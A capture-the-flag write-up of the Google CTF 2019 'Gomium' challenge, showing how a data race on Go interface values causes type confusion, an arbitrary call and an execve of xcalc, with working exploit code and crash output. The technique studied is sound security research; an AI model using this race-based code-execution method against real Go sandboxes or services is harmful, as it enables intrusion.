

# Gomium - 350 points

[Gomium](gomium.go) was a pwn challenge in Google CTF 2019. I was playing with 5BC, we got 2nd place.

The challenge description:
```
The Gomium Browser is the latest, safest browser written entirely in the memory-safe language Go.
Can you break it? Prepare an exploit, put it on your USB stick and come on stage demonstrate it live pwn2own-style!
We will run `gomium file:///media/usb/exploit.htm` and you should pop `xcalc`.
The computer will be a Debian 10 buster (https://cdimage.debian.org/debian-cd/current/amd64/iso-cd/debian-10.1.0-amd64-netinst.iso) with Xfce and Go 1.13.3 installed (https://dl.google.com/go/go1.13.3.linux-amd64.tar.gz).
```

## Intro to Go

[Go](https://en.wikipedia.org/wiki/Go_(programming_language)) (A.K.A Golang) is statically typed, compiled programming language designed at Google. Go has a similar syntax to C, but it is memory safe, it has garbage collector, structured types and more.
Go is compiled to native code, it's readable and usable like Python and JavaScript.
It's designed to enable writing high performance, concurrent network services.

## The Challenge
In the challenge [zip](https://storage.googleapis.com/gctf-2019-attachments/fd4ab02a5c301ef666343bc10fde869baaf2f56b7534f3d0b68b427180d16a1b), we get one main file - `gomium.go`.

We understood from the description that gomium receives as an input argument a file-path to our exploit.



We read the gomium code and quickly understood that it will fetch our file, call runScripts and then it will render the result.
Here is the snippet of `runScripts`:
```Golang
func runScripts(page string) (string, error) {
    const start = `<script type="text/goscript">`
    const end = `</script>`
    var buf bytes.Buffer
    for {
        p := strings.Index(page, start)
        if p == -1 {
            break
        }
        buf.WriteString(page[:p])
        page = page[p:]
        p = strings.Index(page, end)
        if p == -1 {
            break
        }
        out, err := sanitizeAndRun(page[len(start):p])
        if err != nil {
            return "", err
        }
        buf.WriteString(out)
        page = page[p+len(end):]
    }
    buf.WriteString(page)
    return buf.String(), nil
}
```

We looked deeper at `sanitizeAndRun`:
```Golang
func sanitizeAndRun(script string) (string, error) {
    code, err := sanitize(script)
    if err != nil {
        return "", err
    }
    return run(code)
}

func sanitize(script string) (string, error) {
    fs := token.NewFileSet()
    file, err := parser.ParseFile(fs, "", script, parser.AllErrors)
    if err != nil {
        return "", err
    }
    for _, s := range file.Imports {
        switch s.Path.Value {
        case `"fmt"`:
        default:
            return "", fmt.Errorf("import %v not allowed", s.Path.Value)
        }
    }
    var b bytes.Buffer
    if err := printer.Fprint(&b, fs, file); err != nil {
        return "", err
    }
    return b.String(), nil
}
```
The function `sanitize` used go built-in package [parser](https://golang.org/pkg/go/parser/), this package implements a parser for Go source, it used to parse the code we provide inside the tags and it looks for all imports. In case of import different from "fmt" the function `sanitize` will return an error which will stop the `render` process and will print the error.

While reading the rest of the code we noticed that our `Go` script will be compiled and executed with a 5 seconds timeout.
```Golang
func run(script string) (string, error) {
    dir, err := ioutil.TempDir("", "gobrowser")
    if err != nil {
        return "", err
    }
    defer os.RemoveAll(dir)
    source := filepath.Join(dir, "main.go")
    if err := ioutil.WriteFile(source, []byte(script), 0600); err != nil {
        return "", err
    }
    ctx, cancel := context.WithTimeout(context.Background(), 5*time.Second)
    defer cancel()
    cmd := exec.CommandContext(ctx, "go", "build", source)
    cmd.Dir = dir
    if err := cmd.Run(); err != nil {
        if ctx.Err() == context.DeadlineExceeded {
            return "", fmt.Errorf("timeout: %v", err)
        }
        return "", err
    }
    binary := filepath.Join(dir, "main")
    out, err := exec.CommandContext(ctx, binary).CombinedOutput()
    if err != nil {
        if ctx.Err() == context.DeadlineExceeded {
            return "", fmt.Errorf("timeout: %v", err)
        }
        return "", err
    }
    return string(out), nil
}
```
We started by looking at the parser package, it is the same package used by the Go compiler, and we couldn't find a way to abuse the build process to bypass the restriction of having more imports aside from "fmt".

## The lead

As stated in the challenge description, we need our exploit to work on go version 1.13.3 which is quite new (released on 3 September).

From our experience with go, we already knew that we can't create an array and read or write outside of its length.
For example the following code:
```Golang
func main() {
    var buf [10]int
    var i = 0
    for ; i < 10; i++ {
        buf[i] = i
    }
    fmt.Printf("buf[1] = %d\n", buf[1])
    fmt.Printf("buf[11] = %d\n", buf[11])
}
```
Will result in an compilation error `invalid array index 11 (out of bounds for 10-element array)`
When modifying it to the following:
```Golang
func main() {
    buf := make([]int, 10)
    var i = 0
    for ; i < 10; i++ {
        buf[i] = i
    }
    fmt.Printf("buf[1] = %d\n", buf[1])
    fmt.Printf("buf[11] = %d\n", buf[11])
}
```
This will be compiled successfully, but at runtime will result: `panic: runtime error: index out of range`

Having the above in mind, we started by looking for open issues in [go git](https://github.com/golang/go/issues) which hopefully include a useful 1-Day or some sort of bug which could help us in the exploit.
After a while, we ended up empty-handed and decided to switch to a different approach.

We then went looking for common pitfalls in `go`, which brought us to the [faq](https://golang.org/doc/faq#atomic_maps). Specifically, concurrent reading/write of a map from two or more goroutines is unsafe and can crash the program.
A crash is good, so we started playing around with multiple goroutines that use the same map without a mutex.
We tried to play a bit with goroutines with creating a map and adding a new element in an infinite loop and on the other goroutine we delete the element we create, and for last we try to print this element.
```Golang
func main() {
    arr := make(map[string]string)

    go func() {
        for {
            arr["test"] = "maybe"
        }
    }()

    go func() {
        for {
            delete(arr, "test")
        }
    }()

    for {
        fmt.Printf(arr["test"])
    }
}
```
That led us to a null pointer deref, however we are going to need a better bug/crash.
We played with this approach a bit more and but we didn't produce a better outcome so we decided to search for more about goroutines maybe someone has done this work before.

After a short online search, we stumbled upon the following [blog](https://blog.stalkr.net/2015/04/golang-data-races-to-break-memory-safety.html) which describes how you can exploit interface type from goroutines.

You might ask yourself what is an interface and why we chose this approach.
An interface is a type which specifies a method set for example a car interface have OilLevel:
```Golang
type car interface {
    OilLevel() uint32
}
```
We will have 2 types that implement this interface:
```Golang
type ferari struct {
    oilLevel uint32
}
type ricksha struct {
    oilLevel uint32
}
```
But the function `OilLevel` is implemented differently on both:
```Golang
func (f *ferari) OilLevel() {
    fmt.Printf("ferari Oil Level: %d\n", f.oilLevel)
}

func (r *ricksha) OilLevel() {
    fmt.Printf("ricksha Oil Level: %d\n", r.oilLevel)
}
```
As shown above the types `ferari` and `ricksha` will both implement `car` interface by implementing the function `OilLevel`.
On the contrary, these types can implement their struct differently.

Next, we declare a global vars type `car` interface but each uses a different type of `car` implementation.
```Golang
var f car
var r car

func main() {
    f = &ferari{oilLevel: 100}
    r = &ricksha{oilLevel: math.MaxUint32}

    f.OilLevel()
    r.OilLevel()
}
```
If we translate each implementation to C code it will be:
```C
struct ferari {
    uint64_t go_internals[3];
    void (*ferari_OilLevel)(void *ctx);
};

struct ricksha {
    uint64_t go_internals[3];
    void (*ricksha_OilLevel)(void *ctx);
};

struct ferari  main_f; // Golang convention
struct ricksha main_r;
```
Where both `ferari` and `ricksha` are globals, and each of them have a unique "context" which is also global and passed right before calling the function at offset 0x18.
```assembly
mov     rax, cs:main_f
mov     rax, [rax+18h]
mov     rcx, cs:main_f_context
mov     [rsp+18h+var_18], rcx
call    rax
```

Well, but why should we use interfaces?
The answer is simple, what if we create a third global with `ferari` implementation and we change the global to point to a `ricksha` with `ferari` context. This will result in calling the `ricksha_OilLevel` implementation with the context of `ferari`.

We can do that by changing our main as the following:
```Golang
func main() {
	f = &ferari{oilLevel: 100}
	r = &ricksha{oilLevel: math.MaxUint32}
	confused = f
	go func() {
		var i int
		for {
			confused = f
			confused = r
			i++
			if i > 1000000 {
				break
			}
		}
	}()
	for {
		confused.OilLevel()
	}
}
```

This will result:
```txt
ferari Oil Level: 100
ricksha Oil Level: 4294967295
ricksha Oil Level: 100
```

Now is the time to demonstrate how we can exploit this behavior.

As said earlier, this approach is based on creating an interface:
```Golang
type itf interface {
    X() bool
}
```
And implementing it in two different ways:
```Golang
type safe struct {
    f *int
}

func (s *safe) X() bool {
    return false
}
```
And
```Golang
type unsafe struct {
    f func() bool
}

func (u *unsafe) X() bool {
    if u.f != nil {
        u.f()
    }

    return false
}
```
Now that we have the interface `itf` we would like to declare 3 vars which will present an `itf`
```Golang
var good itf
var bad itf
var confused itf
```
Next, we will assign `good` as the `safe` interface and `bad` as `unsafe` interface and we will have `confused` which will point to `good` interface.
By doing so, we make sure that later on, it will get the context of good.
We proceeded to create a loop that accesses the function `X` implementation on confused and while doing so we repeatedly changed the `confused` interface from `good` to `bad`.
```Golang
func main() {
	pp := 0x1337
	good = &safe{f: &pp}
	bad = &unsafe{}
	confused = good

	go func() {
		var i int
		for {
			confused = bad
			confused = good
			i++

			if i > 100000 {
				break
			}
		}
	}()

	for {
		confused.X()
	}
}
```
By doing the above we create a race where we access the implementation of X with the context of `good` that means if we "win" then inside the `unsafe` implementation `f` from the `bad` context will be used as a function pointer instead of a pointer to an integer.
This will result in calling an arbitrary address (0x1337 in our case) which sounds quite promising.

```txt
unexpected fault address 0x1337
fatal error: fault
[signal SIGSEGV: segmentation violation code=0x1 addr=0x1337 pc=0x1337]
...
```

## The exploit

So far we managed to execute arbitrary address which is good, but is it enough for us to execute `xcalc`?
Well, that's the time to mention that GO doesn't compile with ASLR by default and this is good news for us! (further reading [here](https://rain-1.github.io/golang-aslr.html)).

At this point, we built the above snippet and looked at the binary we got.
The binary has no imports at all, so we started looking for a function that could let us spawn a new process.
After a short inspection, we found the `syscall_Syscall6` function, it lets you run a syscall with 6 arguments.
We tested and found we simply jump to that address and it will stay the same in each build (that's good news!)
It is possible to pass arguments to our arbitrary address by changing the `unsafe` implementation:
```Golang
func (u *unsafe) X() bool {
    if u.f != nil {
        // syscall(NR_execve, "/bin/sh", argv, environ)
        u.f(59, uintptr(address(bin_sh_slice)), uintptr(address(argv)),
            uintptr(address(env)))
    }

    return false
}
```

Next, we created a function that gets a type and returns its pointer. We did that using printf with `%p` which returns a string representation of the pointer and then we converted it to uint64.
```Golang
func address(i interface{}) uint64 {
    ptr_str := fmt.Sprintf("%p", i)
    fmt.Printf("%v\n", ptr_str)

    var val uint64

    for i := 2; i < len(ptr_str); i++ {
        fmt.Printf("%v, %c\n", i, ptr_str[i])
        val *= 0x10
        if '0' <= ptr_str[i] && ptr_str[i] <= '9' {
            cur_digit := ptr_str[i] - '0'
            val += uint64(cur_digit)
        } else {
            cur_digit := ptr_str[i] - 'a' + 10
            val += uint64(cur_digit)
        }
    }

    return val
}
```

Our next move was to call the static address that will be generated for `syscall_Syscall6` with `__NR_execve` and the correct parameters to execute `xcalc`.
Also, we had to make a function that can retrieve the address of the strings to pass it to `execve`.
```Golang
func main() {
    argv = make([]uintptr, 5)

    bin_sh_slice = make([]uint8, 20)
    shell := "/usr/bin/xcalc"
    for v := 0; v < len(shell); v++ {
        bin_sh_slice[v] = uint8(shell[v])
    }
    // ...
}
```
Since we ran on from bash we had to add the env `DISPLAY=0.0` to make `xcalc` pop.
```Golang
func main() {
    // ...
    argv[0] = uintptr(address(bin_sh_slice))

    display = make([]uint8, 20)
    env_var := "DISPLAY=:0"
    for v := 0; v < len(env_var); v++ {
        display[v] = uint8(env_var[v])
    }

    env[0] = uintptr(address(display))
    // ...
}
```
This challenge was an on-site we don't have a flag, but we did have `xcalc` on video.
That's it :)

## Video of poping `xcalc` on-site
[](http://www.youtube.com/watch?v=5XH_R7Ht6AI)

## Credits
Thanks to [@yoavalon](https://twitter.com/yoavalon) and [@EyalItkin](https://twitter.com/EyalItkin) for helping me solve this challenge